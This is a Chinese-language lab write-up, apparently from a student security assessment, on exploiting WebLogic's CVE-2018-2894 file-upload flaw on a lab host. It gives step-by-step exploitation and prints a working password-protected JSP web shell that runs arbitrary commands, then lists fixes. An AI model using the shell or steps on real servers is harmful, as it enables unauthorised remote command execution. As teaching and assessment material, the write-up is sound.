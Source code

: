 # 2021SRE_Winter_SecTask

# Web 安全方向考核内容：

## 一、简单的渗透

首先用nmap扫描一下看看这个端口有什么服务：

![2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled.png](2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled.png)

发现了这个Oracle weblogic，利用百度搜索一下看看有没有什么漏洞之类的

果然，一搜索可真是~~漏洞百出~~啊哈，先看看这个漏洞：

Weblogic 任意文件上传漏洞（CVE-2018-2894）

## 二、漏洞影响：

> 利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。WebLogic管理端未授权的两个页面存在任意上传getshell漏洞，可直接获取权限。两个页面分别为/ws_utc/begin.do，/ws_utc/config.do。

1. 打开[http://172.23.26.66:7001/ws_utc/config.do](http://172.23.26.66:7001/ws_utc/config.do)页面，
2. 设置当前的工作路径为/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css
目的是为了我们可以直接外网访问目录无需任何权限。

![2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled%201.png](2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled%201.png)

3.点击安全→添加→选择文件，既可上传jsp马。

![2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled%202.png](2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled%202.png)

4.利用bp抓包，获取时间戳。

![2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled%203.png](2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled%203.png)

5.然后访问[http://172.23.26.66:7001/ws_utc/css/config/keystore/1614346750144_shell.jsp?pwd=023&i=whoami](http://172.23.26.66:7001/ws_utc/css/config/keystore/1614346750144_shell.jsp?pwd=023&i=whoami)即可得到想要的结果了

![2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled%204.png](2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled%204.png)

![2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled%205.png](2021SRE_Winter_SecTask%20ea03eb5843674049ac8c77718cb02b91/Untitled%205.png)

```jsx
注：我利用的jsp🐎为：
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

- 参考文章：[https://www.freebuf.com/news/topnews/205469.html](https://www.freebuf.com/news/topnews/205469.html)
- [https://blog.csdn.net/weixin_41652128/article/details/102676891?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.control&dist_request_id=1bece6c9-d4cc-4b37-8a9e-99e03086b017&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.control](https://blog.csdn.net/weixin_41652128/article/details/102676891?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.control&dist_request_id=1bece6c9-d4cc-4b37-8a9e-99e03086b017&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.control)
- [https://xz.aliyun.com/t/2458](https://xz.aliyun.com/t/2458)

## 三、修复建议

1.设置Config.do、begin.do页面登录授权后访问；

2.IPS等防御产品可以加入相应的特征；

3.升级到官方最新版本。